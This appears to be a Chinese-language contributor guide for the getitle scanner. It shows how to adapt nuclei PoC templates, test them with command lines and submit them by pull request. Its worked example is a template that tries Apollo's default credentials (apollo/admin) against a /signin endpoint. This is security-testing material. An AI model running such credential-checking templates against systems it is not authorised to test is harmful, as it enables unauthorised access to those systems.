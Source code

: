 # 编写POC

getitle的poc采用了nuclei的poc, 但删除了部分nuclei的语法. 例如dsl. 并且有部分较新的nuclei语法暂不支持. 

getitle 目前支持tcp(暂不支持tls tcp)与http协议的绝大部分nuclei poc

## 从nuclei templates 迁移poc

https://github.com/projectdiscovery/nuclei-templates

大部分poc仅需简单修改即可在getitle中使用.

### 示例  迁移apollo-login poc 到getitle

https://github.com/projectdiscovery/nuclei-templates/blob/d6636f9169920d3ccefc692bc1a6136e2deb9205/default-logins/apollo/apollo-default-login.yaml



![image-20220806183221407](img/poc.png)



这个poc需要进行一些删减和改动. 

1. 删除一些header信息, 并且根据getitle的指纹重新添加tags
2. 减少不必要的发包, apollo实际上只需要第一个signin的包即可确定是否成功
3. dsl在getitle中已删除, 因为dsl不是必要功能, 大部分场景都能通过正则实现, dsl只是减少复杂场景的使用难度. 因此, 我们可以把这段dsl修改为匹配固定值



**step 1** 删除不必要的header, 仅保留如下信息, 并重新添加tags

需要注意的是, tags填写的是fingers中存在的指纹, 如果指纹没有识别到, 将不会自动使用poc. 需要-E poc id 强制指定
```
id: apollo-default-login

info:
  name: Apollo Default Login
  severity: high
  tags: apollo
```



**step2 and step3** 原本的poc中有两个包, 修改为一个. 最终成果

```
id: apollo-default-login

info:
  name: Apollo Default Login
  severity: high
  tags: apollo

requests:
  - raw:
      - |
        POST /signin HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded
        Origin: {{BaseURL}}
        Referer: {{BaseURL}}/signin?
        
        username={{user}}&password={{pass}}&login-submit=Login
    attack: pitchfork
    payloads:
      user:
        - apollo
      pass:
        - admin
    matchers-condition: and
    matchers:
      - type: word
        part: header
        negative: true
        words:
          -  '?#/error'
        condition: and

      - type: status
        status:
          - 302
```



**测试**

因为getitle为了缩减体积, 仅使用了标准json库, 所以需要先将yaml转为json

使用自带的脚本 `yaml2json.py`.

`python yaml2json.py apollo-login.yml -f apollo-login.json` 

 

指定ef文件加载poc

`gt.exe -ef .\poc.json -ip 127.0.0.1 -e -p 80 -debug`

如果需要配合burp调试, 请使用proxifier代理, 代理gt的流量到burp

![image-20220806194210422](img/run.png)



**提交poc**

官方的poc仓库位于 https://github.com/chainreactors/getitle-templates/tree/master/nuclei

提交对应的pr, 将poc放到合适的文件夹下. 下次release就会自动编译到二进制文件中.

## 成为Contributors 

如果不熟悉git使用, 直接将poc复现成功的截图与poc的yaml复制到issue中, 我会手动整理合并poc. 但这种方式可能不能在仓库的Contributors 中找到自己.


使用pull request就能成为repo的Contributors.

### pr使用

首先在github上点击fork, fork getitle-templates 到自己的账号下

然后 git clone fork之后的repo

将编写好的poc 放到getitle-templates/nuclei/对应的目录下.

在本地的文件夹下使用, git命令

`git add .`

`git commit -m "add [poc name]"`

`git push origin master`

这时候点开自己fork之后的repo, 就可以看到刚刚的提交.

然后点击pull request, 将本地的commit 提交至官方的仓库.

维护者看到pr或者issue后会review之后合并. 下个版本的getitle就能使用你提交的poc了.